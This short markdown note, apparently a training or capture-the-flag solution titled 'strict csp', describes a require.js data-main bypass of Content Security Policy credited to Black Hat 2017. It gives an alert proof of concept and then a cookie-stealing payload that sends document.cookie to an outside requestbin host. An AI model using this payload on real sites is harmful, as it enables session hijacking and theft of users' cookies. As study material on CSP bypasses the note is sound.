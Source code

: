 # strict csp

From Black hat 2017, require is vulnerable to this:

`<script data-main='data:1,alert(1)' src='require.js'></script>`

SO:

`<script data-main="data:1,window.location.href='https://requestbin.training.jinblack.it/1kd8gl81?cookie='+document.cookie" src='require.js'></script>`
